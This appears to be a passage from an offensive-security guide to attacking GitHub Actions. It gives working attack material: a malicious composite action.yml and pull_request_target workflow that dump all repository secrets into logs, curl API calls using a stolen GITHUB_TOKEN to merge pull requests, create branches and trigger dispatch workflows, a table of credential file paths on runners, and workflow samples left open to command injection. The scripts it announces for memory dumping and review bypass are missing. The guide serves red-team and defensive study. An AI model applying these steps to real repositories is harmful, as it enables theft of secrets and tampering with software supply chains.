You can steal secrets by rewriting third-party action code. GitHub Runner checks out all third-party action repositories during the `Set up` step and saves them to the `/home/runner/work/_actions/` folder. For example, `fakeaction/publish@v3` will be checked out to the `/home/runner/work/_actions/fakeaction/publish/v3/` folder. Therefore, you can rewrite a third-party action with a malicious one using command injection to access secrets.

The easiest way is to override the `action.yml` file with a composite action that leaks secrets:

```yaml
name: 'Publish'
description: 'Fake publish action'
inputs:
  key:
    description: 'Publish key'
    required: true

runs:
  using: "composite"
  steps:
    - run: echo "${{ inputs.key }}" | base64 -w 0 | base64 -w 0
      shell: bash
```

## Leaking repository and organization secrets by adding a malicious workflow


GitHub no longer allows modifying files in the `.github/workflows` folder or merging a branch from **forks** with changes in the `.github/workflows` folder using `GITHUB_TOKEN`.
You need a personal access token with `repo` and `workflow` scopes to be able to add a malicious workflow.


Usually, non-default branches have no branch protection rules. If you have access to `GITHUB_TOKEN` with the `pull_requests:write` scope, you can add an arbitrary workflow to a non-default branch. Since the `pull_request_target` workflow in non-default branches can be triggered by a user, you can leak all repository and organization secrets using the following steps:

1. Fork the target repo.
1. Add a malicious `pull_request_target` workflow:

    ```yaml
    name: Malicious workflow
    on: pull_request_target
    env:
      secrets: ${{ toJSON(secrets) }}
    jobs:
      one:
        runs-on: ubuntu-latest
        steps:
          - run: echo $secrets | base64 -w0 | base64 -w0
    ```

1. Create a pull request to a non-default branch.
1. Merge the pull request using `GITHUB_TOKEN` with `pull_requests:write` scope:

    ```bash
    curl -X PUT -H "Accept: application/vnd.github+json" -H "Authorization: Bearer <GITHUB_TOKEN>" \
      https://api.github.com/repos/<OWNER>/<REPO>/pulls/<PR_NUMBER>/merge
    ```

1. After merging the pull request open a pull request to the non-default branch from the fork.
1. Wait for the malicious workflow to complete.
1. It will leak all secrets to the logs.

If `GITHUB_TOKEN` has the `contents:write` scope, you can create a new non-default branch using the following API request:

```bash
curl -X POST -H "Accept: application/vnd.github+json" -H "Authorization: Bearer <GITHUB_TOKEN>" \
  https://api.github.com/repos/OWNER/REPO/git/refs \
  -d '{"ref":"refs/heads/featureA","sha":"aa218f56b14c9653891f9e74264a383fa43fefbd"}'
```

## Exfiltrating secrets from a runner

An attacker can exfiltrate any stored secrets or other data from a runner. Actions and scripts may store sensitive data on the filesystem:

| Source | Path | Description |
| --- | --- | --- |
| [actions/checkout](https://github.com/actions/checkout) | `.git/config` | `actions/checkout` action by default stores the repository token in a `.git/config` file unless the `persist-credentials: false` argument is set |
| [atlassian/gajira-login](https://github.com/atlassian/gajira-login) | `$HOME/.jira.d/credentials` | `gajira-login` action [stores](https://github.com/atlassian/gajira-login/blob/90a599561baaf8c05b080645ed73db7391c246ed/index.js#L50) the credentials in `credentials` |
| [Azure/login](https://github.com/Azure/login) | `$HOME/.azure` | `Azure/login` action by default use the Azure CLI for login, that stores the credentials in `$HOME/.azure` folder |
| [aws-actions/amazon-ecr-login](https://github.com/aws-actions/amazon-ecr-login) | `$HOME/.docker/config.json` | `aws-actions/amazon-ecr-login` [invokes](https://github.com/aws-actions/amazon-ecr-login/blob/4831715c8c81dbf2ae795f9e285de2a9ee1150b4/index.js#L48) `docker-login` which [writes](https://docs.docker.com/engine/reference/commandline/login/#credentials-store) by default credentials in `.docker/config.json` file |
| [docker/login-action](https://github.com/docker/login-action) | `$HOME/.docker/config.json` | `docker/login-action` [invokes](https://github.com/docker/login-action/blob/3a136a8631bbc4ca05cc2f33d3a19059e9255bae/src/main.ts#L11) `docker-login` which [writes](https://docs.docker.com/engine/reference/commandline/login/#credentials-store) by default credentials in `.docker/config.json` file |
| [docker login](https://docs.docker.com/engine/reference/commandline/login/) | `$HOME/.docker/config.json` | `docker-login` [stores](https://docs.docker.com/engine/reference/commandline/login/#credentials-store) credentials in `.docker/config.json` file |
| [google-github-actions/auth](https://github.com/google-github-actions/auth) | `$GITHUB_WORKSPACE/gha-creds-<RANDOM_FILENAME>.json` | [google-github-actions/auth](https://github.com/google-github-actions/auth) action by default [stores](https://github.com/google-github-actions/auth/blob/b258a9f230b36c9fa86dfaa43d1906bd76399edb/src/client/credentials_json_client.ts#127) the credentials in a `$GITHUB_WORKSPACE/gha-creds-<RANDOM_FILENAME>.json` file unless the `create_credentials_file: false` argument is set |
| [hashicorp/setup-terraform](https://github.com/hashicorp/setup-terraform) | `$HOME/.terraformrc` | `hashicorp/setup-terraform` action by default [stores](https://github.com/hashicorp/setup-terraform/blob/8b4c280fc8c755f3640ce104b5ba443608256909/lib/setup-terraform.js#L104) credentials in a `.terraformrc` file |

## Exfiltrating secrets from memory

Any secrets that are used by a workflow are passed to the GitHub Runner at startup; therefore secrets are placed in the process's memory. You can try to exfiltrate secrets from the memory dump.


`GITHUB_TOKEN` is always passed to the runner, even if it is not referenced in a workflow or included action.


You can use the following script to dump the memory and find `GITHUB_TOKEN`:



## Approving pull requests


[As of May 2022](https://github.blog/changelog/2022-05-03-github-actions-prevent-github-actions-from-creating-and-approving-pull-requests/), creating and approving pull requests by GitHub Actions is disabled for all new repositories and organizations by default, check out [GitHub Docs: Preventing GitHub Actions from creating or approving pull requests](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository#preventing-github-actions-from-creating-or-approving-pull-requests)


You can grant write permissions on the pull requests API endpoint and use the API to approve a pull request. It can be used to bypass branch protection rules when a main branch requires 1 approval and does not require review from code owners.



For instance, if you can write to non-main branches of a repository, you can bypass the protection using the next steps:

1. Create a branch and add the following workflow:

    

1. Create a pull request.
1. The pull request will require approval.
1. Once the action is complete, `github-actions` bot will approve the changes.
1. You can merge the changes to the main branch.

- [Writeup: Bypassing required reviews using GitHub Actions](https://medium.com/cider-sec/bypassing-required-reviews-using-github-actions-6e1b29135cc7)

## Modifying the contents of a repository

An attacker can use the GitHub API to [modify repository content](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token), including releases if the assigned permissions of `GITHUB_TOKEN` [are not restricted](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token).

References:
- [GitHub Docs: Security hardening - Potential impact of a compromised runner](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#modifying-the-contents-of-a-repository)

## Access cloud services via OpenID Connect

If a vulnerable workflow has the `GITHUB_TOKEN` with the `id-token:write` scope you can request the OIDC JWT ID token to access cloud resources.

References:

- [Github Docs: Security hardening your deployments - About security hardening with OpenID Connect](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- [Deploy without credentials with GitHub Actions and OIDC](https://blog.alexellis.io/deploy-without-credentials-using-oidc-and-github-actions/)

## Trigger workflow_dispatch workflows

`GITHUB_TOKEN` with the `actions:write` scope can be used to [create a workflow dispatch event](https://docs.github.com/en/rest/actions/workflows?apiVersion=2022-11-28#create-a-workflow-dispatch-event) via API. It allows triggering workflows using the [workflow_dispacth](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow_dispatch) event and expanding the attack surface.

```bash
curl -i -X POST -H "Accept: application/vnd.github+json" -H "Authorization: Bearer <GITHUB_TOKEN>" \
  https://api.github.com/repos/OWNER/REPO/actions/workflows/WORKFLOW_ID/dispatches \
  -d '{"ref":"main","inputs":{"name":"Mona the Octocat","home":"San Francisco, CA"}}'
```

In the request above, you can control workflow arguments using the `inputs` parameter. If a workflow does not properly handle data from the `inputs` context, you might get the command execution.

```yaml
on:
  workflow_dispatch:
    inputs:
      token:
        description: 'API Token'
        required: true

jobs:
  manual:
    runs-on: ubuntu-latest
    steps:
      # you can use the token parameter to inject arbitrary commands to the run: step
      - run: |
          curl -H "API-Token: ${{ inputs.token }}"
```

References:
- [GitHub Actions: Use the GITHUB_TOKEN with workflow_dispatch and repository_dispatch](https://github.blog/changelog/2022-09-08-github-actions-use-github_token-with-workflow_dispatch-and-repository_dispatch/)

## Trigger repository_dispatch workflows

`GITHUB_TOKEN` with the `metadata:read` and `contents:read&write` scopes can be used to [create a repository dispatch event](https://docs.github.com/en/rest/repos/repos?apiVersion=2022-11-28#create-a-repository-dispatch-event) via API. It allows triggering workflows using the [repository_dispatch](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#repository_dispatch) event and expanding the attack surface.

```bash
curl -i -X POST -H "Accept: application/vnd.github+json" -H "Authorization: Bearer <GITHUB_TOKEN>"\
  https://api.github.com/repos/OWNER/REPO/dispatches \
  -d '{"event_type":"on-demand-test","client_payload":{"unit":false,"integration":true}}'
```

In the request above, you can control workflow arguments using the `client_payload` parameter. If a workflow does not properly handle data from the `github.event.client_payload` context, you might get the command execution.

```yaml
name: Manual

on:
  repository_dispatch:
    types: [test_result]

jobs:
  run_if_failure:
    if: ${{ !github.event.client_payload.passed }}
    runs-on: ubuntu-latest
    steps:
      # you can use the message parameter to inject arbitrary commands to the run: step
      - run: |
          echo ${{ github.event.client_payload.message }}
```

References:
- [GitHub Actions: Use the GITHUB_TOKEN with workflow_dispatch and repository_dispatch](https://github.blog/changelog/2022-09-08-github-actions-use-github_token-with-workflow_dispatch-and-repository_dispatch/)
